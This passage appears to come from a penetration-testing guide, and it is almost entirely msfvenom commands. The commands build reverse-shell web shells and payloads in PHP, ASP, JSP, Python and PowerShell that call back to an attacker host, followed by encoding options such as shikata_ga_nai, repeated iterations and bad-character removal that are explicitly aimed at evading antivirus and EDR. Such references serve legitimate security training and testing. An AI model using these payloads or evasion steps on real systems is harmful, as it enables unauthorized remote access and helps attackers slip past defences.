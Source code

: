 ```bash
# PHP web shell
msfvenom -p php/reverse_php LHOST=192.168.1.5 LPORT=4444 -f raw -o shell.php

# ASP web shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f asp -o shell.asp

# JSP web shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw -o shell.jsp

# Python payload
msfvenom -p python/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw -o shell.py

# PowerShell payload
msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw -o shell.ps1

# Why comprehensive payload generation is essential:
# - Different targets require different payload types
# - Format flexibility enables various delivery methods
# - Platform-specific optimizations improve reliability
# - Staged vs stageless options for different scenarios
# - Web application integration requires specific formats
```

### **Encoding and Evasion Techniques**

**What payload encoding provides:** Obfuscation techniques to bypass signature-based detection, handle bad characters, and evade antivirus/EDR solutions.

**Why encoding is crucial:** Raw payloads are easily detected by security tools. Encoding transforms payloads while preserving functionality, improving evasion rates.

```bash
# Basic payload encoding
# Shikata Ga Nai encoder (polymorphic)
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/shikata_ga_nai -f exe -o encoded_shell.exe

# Multiple encoding iterations
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o multi_encoded.exe

# Different encoder types
# Alpha Mixed encoder (alphanumeric only)
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/alpha_mixed -f exe -o alpha_shell.exe

# Unicode Mixed encoder
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/unicode_mixed -f exe -o unicode_shell.exe

# Bad character avoidance
# Avoid null bytes, carriage returns, and line feeds
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -b "\x00\x0a\x0d" -f exe -o badchar_avoided.exe

# Multiple bad characters
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -b "\x00\x0a\x0d\x20\x26" -e x86/shikata_ga_nai -f exe -o complex_avoided.exe

# Format-specific encoding
# C format with encoding (for buffer overflows)
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f c

```